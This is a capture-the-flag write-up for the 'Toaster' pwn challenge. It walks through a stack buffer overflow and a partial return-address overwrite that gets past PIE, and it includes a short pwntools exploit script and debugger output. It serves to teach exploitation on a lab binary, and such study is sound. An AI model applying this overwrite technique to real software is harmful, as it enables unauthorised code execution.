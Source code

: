 # VUCTF2025 Toaster
This pwn challenge is a classic ret2win challenge. 

The main function contains calls to `menu()`, which simply prints some text, and to a vulnerable function `kitchen()`.
```
void main(void) {
  menu();
  kitchen();
  return;
}
```
The `kitchen()` function contains a 32 byte buffer, but reads up to 0x42 bytes to it, allowing for a buffer overflow:
```
void kitchen(void) {
  undefined1 local_28 [32];
  
  puts("Please give me your secret recipe? ");
  read(0,local_28,0x42);
  return;
}
```
The binary also contains a `toast()` function, which reads and prints the flag when reached:
```
void toast(void) {
  ...
  
  puts("You managed to make the perfect toast, please enjoy it!");
  iVar1 = setuid(0);
  if (iVar1 == 0) {
    local_c = open("/flag.txt",0);
    if (local_c < 0) {
      perror("open failed");
    }
    else {
      ...
      sVar2 = read(local_c,&local_78,99);
      local_10 = (int)sVar2;
      if (local_10 < 1) {
        perror("read failed");
      }
      else {
        write(1,"FLAG: ",6);
        write(1,&local_78,(long)local_10);
        close(local_c);
      }
    }
  }
  else {
    perror("setuid failed");
  }
  return;
}
```
The challenge is thus clear, we have to overflow the buffer in `kitchen()` to overwrite the return pointer on the stack and return into `toast()`.
However, it is made a bit more difficult by the enabled protections:
```
$ checksec toaster 
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
The main issue is that PIE is enabled, causing the binary to be loaded at a randomized address. This means we won't know the address of `toast()` to return to. 
However, the offsets of functions inside the binary will still be equal. When inspecting the binary we can see that the address of the `toast()` function (`0x0010127d`) is close to the address of `main()` (`0x001013f7`), which the return address of `kitchen()` points to.
This offers an attack vector that can circumvent ASLR. We can try to overwrite only the last byte(s) of the address, leaving the randomised part of the address intact. 
This is possible as the addresses are stored in little endian, meaning the final characters of the address are stored first in memory.

To get a better view of what the randomised address will look like, we can inspect some example loaded addresses of the functions:
```
pwndbg> x toast
0x564a64fd527d <toast>: 0xfa1e0ff3
pwndbg> x main
0x564a64fd53f7 <main>:  0xfa1e0ff3
```
When comparing this to another run, we can see that the final three characters are always the same, but all the characters before those are random:
```
pwndbg> x toast
0x55d0d5d7127d <toast>: 0xfa1e0ff3
pwndbg> x main
0x55d0d5d713f7 <main>:  0xfa1e0ff3
```
We thus have to overwrite the final three characters of the return pointer with `27d` to return to `toast()`. The problem is that we can only write bytes, and a single byte corresponds to two address characters.
We can thus either overwrite 2 or 4 characters, but not three. 
Luckily, this is where the randomness of the addresses can actually help us. We know the address has to end in `x27d`, where `x` is random every time.
However, we can simply choose any character for `x`, and run our attack multiple times until the randomised address loaded equals `x`. which will happen once every 16 runs on average as addresses are hexidecimal.
We can do this using the following pwntools script:
```
io = start()
toast_addr = 0x10127d
payload = b"A" * 0x28
payload += p64(toast_addr)
payload = payload[:0x2a]
io.sendafter(b"Please give me your secret recipe? \n", payload)
io.interactive()
```
This scripts sends 28 bytes of padding to reach the return address. This offset can be found by setting a breakpoint in `kitchen()` before the read, and inspecting the stack using pwndebug.
The result of this can be found below, where the stack shows the offset `0x28` contains the return pointer back to `main()`.

```
───────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
   0x563038ee73c8 <kitchen+5>     mov    rbp, rsp               RBP => 0x7ffccb089760 —▸ 0x7ffccb089770 ◂— 1
   0x563038ee73cb <kitchen+8>     sub    rsp, 0x20              RSP => 0x7ffccb089740 (0x7ffccb089760 - 0x20)
   0x563038ee73cf <kitchen+12>    lea    rax, [rip + 0xdda]     RAX => 0x563038ee81b0 ◂— 'Please give me your secret recipe? '
   0x563038ee73d6 <kitchen+19>    mov    rdi, rax               RDI => 0x563038ee81b0 ◂— 'Please give me your secret recipe? '
   0x563038ee73d9 <kitchen+22>    call   puts@plt                    <puts@plt>
 
 ► 0x563038ee73de <kitchen+27>    lea    rax, [rbp - 0x20]      RAX => 0x7ffccb089740 ◂— 0
   0x563038ee73e2 <kitchen+31>    mov    edx, 0x42              EDX => 0x42
   0x563038ee73e7 <kitchen+36>    mov    rsi, rax               RSI => 0x7ffccb089740 ◂— 0
   0x563038ee73ea <kitchen+39>    mov    edi, 0                 EDI => 0
   0x563038ee73ef <kitchen+44>    call   read@plt                    <read@plt>
 
   0x563038ee73f4 <kitchen+49>    nop    
─────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffccb089740 ◂— 0
01:0008│-018 0x7ffccb089748 —▸ 0x7ffccb089898 —▸ 0x7ffccb08b222 ◂— 'COLORFGBG=15;0'
02:0010│-010 0x7ffccb089750 —▸ 0x7fe642423000 (_rtld_global) —▸ 0x7fe642424310 —▸ 0x563038ee6000 ◂— 0x10102464c457f
03:0018│-008 0x7ffccb089758 —▸ 0x563038ee727a (menu+113) ◂— nop 
04:0020│ rbp 0x7ffccb089760 —▸ 0x7ffccb089770 ◂— 1
05:0028│+008 0x7ffccb089768 —▸ 0x563038ee7413 (main+28) ◂— nop 
06:0030│+010 0x7ffccb089770 ◂— 1
07:0038│+018 0x7ffccb089778 —▸ 0x7fe642200ca8 (__libc_start_call_main+120) ◂— mov edi, eax

```
This offset is then followed by the last 2 bytes of the address of `toast()` (`0x127d`).


## `sendafter()` vs `sendlineafter()`
When I first attempted the challenge, I was having issues where I was not just overwriting the return pointer with `0x0x127d`, but with `0x0a127d`. 
Debugging this cost me quite some time, but it ended up being caused by the fact that my exploit script at this point used `sendlineafter()` instead of `sendafter()`.
`sendlineafter()` also sends a newline character, which ended up becoming `0a` in the return address. Swapping out this function with `sendafter()` solved this problem.
